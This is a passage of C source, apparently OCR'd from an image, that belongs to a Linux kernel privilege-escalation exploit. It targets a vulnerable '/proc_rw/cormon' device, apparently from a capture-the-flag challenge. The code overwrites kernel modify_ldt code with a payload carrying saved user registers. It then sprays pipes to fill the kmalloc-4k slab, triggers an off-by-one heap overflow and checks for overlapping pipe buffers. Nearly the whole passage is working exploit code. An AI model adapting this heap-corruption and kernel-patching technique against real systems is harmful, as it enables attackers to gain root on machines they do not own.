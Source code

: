 ```c
  *ptr = user_rflags;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x55\x55\x55\x55\x55\x55\x55\x55", 8);
  *ptr = user_sp;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x66\x66\x66\x66\x66\x66\x66\x66", 8);
  *ptr = user_ss;

  memcpy(original_modify_ldt_code, modify_ldt_addr,
         sizeof(original_modify_ldt_code) - (MODIFY_LDT_OFFSET & 0xfff));
  memcpy(modify_ldt_addr, new_modify_ldt_code, sizeof(new_modify_ldt_code));
}

#define SLAB_COUNT 7

int main() {
  pin_to_core(0);
  save_state();
  vuln_fd = open("/proc_rw/cormon", O_RDWR);
  if (vuln_fd < 0) {
    fatal("open");
  }
  void *tmpbuf = malloc(0x1000);
  uint64_t *uint64_tmpbuf = (uint64_t *)tmpbuf;

FIRST_STEP:
#define RETRY()                                            \
  do {                                                     \
    for (int i = 0; i < pipe_cnt; ++i) {                   \
      close_pipe_at(i);                                    \
    }                                                      \
    sched_yield();                                         \
    puts("\n[*] Retry from first step after 1 seconds\n"); \
    sleep(1);                                              \
    goto FIRST_STEP;                                       \
  } while (0)

  puts("[*] Do side-channel for kmalloc-4k slab...");
  while (make_kmalloc_4k_slab_full(SLAB_COUNT) < 0) {
    puts("    [*] Retry side-channel for kmalloc-4k slab...");
    for (int i = 0; i < pipe_cnt; ++i) {
      close_pipe_at(i);
    }
    sched_yield();
  }
  puts("    [+] Side-channel success");

  const size_t target_pipe_idx = SLAB_COUNT * 4 + 4;
  puts("[*] Trigger off-by-one...");
  sched_yield();
  close_pipe_at(target_pipe_idx);
  off_by_one_in_kmalloc_4k();
  alloc_4k_pipe_at(target_pipe_idx);
  sched_yield();

  puts("[*] Finding overlapped pipes...");
  if (find_overlapped_pipes()) {
    puts("    [-] Overlapping seems false positive");
    RETRY();
  }
  printf("    [+] pipe @ %lx and pipe @ %lx are overlapped!\n",
         victim_pipe_fds[0], victim_pipe_fds[1]);

```